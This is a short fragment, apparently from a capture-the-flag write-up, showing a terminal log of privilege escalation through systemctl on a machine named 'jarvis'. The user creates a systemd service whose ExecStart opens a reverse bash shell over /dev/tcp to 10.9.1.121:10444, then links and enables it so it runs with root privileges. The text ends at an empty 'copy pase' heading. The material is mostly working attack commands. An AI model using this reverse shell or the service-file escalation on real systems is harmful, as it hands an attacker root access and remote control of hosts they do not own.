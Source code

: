 #### Systemctl privesc
pepper@jarvis:~$ cat toto.service
cat toto.service
[Service]
Type=oneshot
ExecStart=/bin/bash -c "bash -i &>/dev/tcp/10.9.1.121/10444 0<&1"
[Install]
WantedBy=multi-user.target

pepper@jarvis:~$ chmod 777 toto.service
chmod 777 toto.service

pepper@jarvis:~$ /bin/systemctl link /home/pepper/toto.service
/bin/systemctl link /home/pepper/toto.service
Created symlink /etc/systemd/system/toto.service -> /home/pepper/toto.service.

pepper@jarvis:~$ /bin/systemctl enable --now /home/pepper/toto.service
/bin/systemctl enable --now /home/pepper/toto.service
Created symlink /etc/systemd/system/multi-user.target.wants/toto.service -> /home/pepper/toto.service.

###copy pase:

